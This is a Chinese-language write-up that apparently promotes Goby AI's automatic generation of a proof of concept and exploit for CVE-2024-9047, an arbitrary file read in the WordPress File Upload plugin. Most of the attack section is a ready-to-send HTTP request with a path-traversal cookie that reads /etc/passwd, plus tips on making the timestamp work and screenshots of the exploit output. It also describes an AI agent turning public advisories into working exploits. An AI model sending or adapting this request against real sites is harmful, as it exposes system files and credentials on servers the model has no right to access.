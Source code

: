 ## GobyAI智能生成EXP：CVE-2024-9047 WordPress File Upload 插件 /wfu_file_downloader.php 任意文件读取漏洞



摘要：本片描述如何使用Goby AI 智能输出9.8高危漏洞PoC/EXP：“WordPress File Upload 插件 /wfu_file_downloader.php 任意文件读取漏洞(CVE-2024-9047)”



可以先查看此漏洞的公开参考详情：

https://mp.weixin.qq.com/s/u8Ik40iBuxgKfH7WDrzijQ

查看漏洞详情，我们可以了解到，此漏洞成因是位于 /wp-content/plugins/wp-file-upload/wfu_file_downloader.php 中的wfu_fopen_for_downloader 方法存在fopen 函数导致文件读取操作，实际在 wfu_download_file 方法就调用到了该函数。通过伪造请求中的cookie参数（文件名称及时间戳），利用fopen函数实现任意文件读取。

智能体首先解析出的文本和图片内容，提取漏洞背景描述、请求包和响应包等关键信息，提取出漏洞类型为文件读取，分配文件读取智能体对请求包及响应包进行分析。

直接输入公开参考详情链接，GobyAI的智能输出结果如下：

# 漏洞信息

智能体提取文本中的 产品名、漏洞路径、漏洞类型、CVE编号等信息，自动以 “产品名称+漏洞路径+漏洞类型+(CVE编号)"的格式生成漏洞名称

1.智能生成漏洞名称；

2.提取FOFA指纹信息；

3.根据页面内容智能分析漏洞描述、影响版本、解决方案、cvss评分等信息。



## 扫描测试

自动构造请求包：

（需要注意的是：Payload中请求包中的时间戳需手动修改为精准在分钟内的任意时间戳即可，可以直接替换为：1735095641153454600）

`GET /wp-content/plugins/wp-file-upload/wfu_file_downloader.php?file=pQ1DyzbQp5hBxQpW&ticket=Hw8h7dBmxROx27ZZ&handler=dboption&session_legacy=1&dboption_base=cookies&dboption_useold=0&wfu_cookie=wp_wpfileupload_939a4dc9e3d96a97c2dd1bdcbeab52ce HTTP/1.1`
`Host: 127.0.0.1`
`Upgrade-Insecure-Requests: 1`
`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36`
`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9`
`Accept-Encoding: gzip, deflate`
`Accept-Language: zh-CN,zh;q=0.9`
`Cookie: wp_wpfileupload_939a4dc9e3d96a97c2dd1bdcbeab52ce=cfyMMnYQqNBbcBNMLTCDnE7ezEAdzLC3; wfu_storage_pQ1DyzbQp5hBxQpW=/../../../../../etc/passwd[[name]]; wfu_download_ticket_Hw8h7dBmxROx27ZZ=时间戳; wfu_ABSPATH=/;` 
`Connection: close`


![](https://s3.bmp.ovh/imgs/2024/12/25/78d083a586adb919.png)



自动填写响应包：

提取特征信息，若响应包中存在特征则证明漏洞存在。：

![](https://s3.bmp.ovh/imgs/2024/12/25/1cdc72f07dae07f6.png)


## 利用测试

利用输入（EXP Params）：

智能体提取的文件访问路径将自动填入 EXP 参数中。

验证方式支持两种选择：

● 默认方式（default)，直接使用文章中已有的访问路径；

● 用户自定义方式(custom)，允许用户指定输出的访问路径以满足特定需求

![](https://s3.bmp.ovh/imgs/2024/12/25/33bb6186e75bb821.png)

同时，智能体会将访问文件路径替换为变量，并填充至 EXP Params 中，方便用户查看和自定义输入访问路径。

![](https://s3.bmp.ovh/imgs/2024/12/25/9dbf9000959d849d.png)



利用输出（output）：

智能体通过正则表达式，提取响应包中lastbody中的所有内容进行输出。

![](https://s3.bmp.ovh/imgs/2024/12/25/be9cb31fea697a3e.png)


# 实战检验流程

输入靶场目标进行扫描，确认PoC扫描测试准确性：√

![](https://s3.bmp.ovh/imgs/2024/12/25/0ada57862db88e4d.png)

点击验证，检测EXP输出信息的准确性：√

![](https://s3.bmp.ovh/imgs/2024/12/25/d925d52f04654a0d.png)
